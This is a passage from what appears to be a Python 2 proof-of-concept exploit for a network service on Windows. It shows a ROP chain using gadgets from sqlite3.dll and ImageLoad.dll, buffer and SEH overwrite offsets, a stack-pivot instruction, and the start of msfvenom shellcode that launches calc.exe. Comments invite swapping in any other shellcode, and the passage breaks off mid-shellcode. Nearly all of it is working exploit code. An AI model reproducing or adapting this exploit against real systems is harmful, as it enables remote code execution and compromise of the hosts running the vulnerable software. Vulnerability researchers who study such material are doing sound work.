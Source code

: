       0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x1001b4f6,  # POP ECX # RETN [ImageLoad.dll] 
      0x61c73281,  # &Writable location [sqlite3.dll]
      0x100194b3,  # POP EDI # RETN [ImageLoad.dll] 
      0x1001a858,  # RETN (ROP NOP) [ImageLoad.dll]
      0x10015442,  # POP EAX # RETN [ImageLoad.dll] 
      0x90909090,  # nop
      0x100240c2,  # PUSHAD # RETN [ImageLoad.dll] 
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

	
# Check command line args 
if len(sys.argv) <= 1:
    print "Usage: python poc.py [host] [port]"
    exit()

host = sys.argv[1]    
port = int(sys.argv[2])


# Offsets
rop_offset = 2455
max_size = 5000
seh_offset = 4059
eax_offset = 4183


# move ESP out of the way so the shellcode doesn't corrupt itself during execution
# metasm > add esp,-1500
shellcode =  "\x81\xc4\x24\xfa\xff\xff"

# Just as a PoC, spawn calc.exe. Replace with any other shellcode you want
# (maximum size of shellcode allowed: 1260 bytes)
#
# msfvenom -p windows/exec CMD=calc.exe -b '\x00\x3b' -f python
# Payload size: 220 bytes
shellcode += "\xbb\xde\x37\x73\xe9\xdb\xdf\xd9\x74\x24\xf4\x58\x31"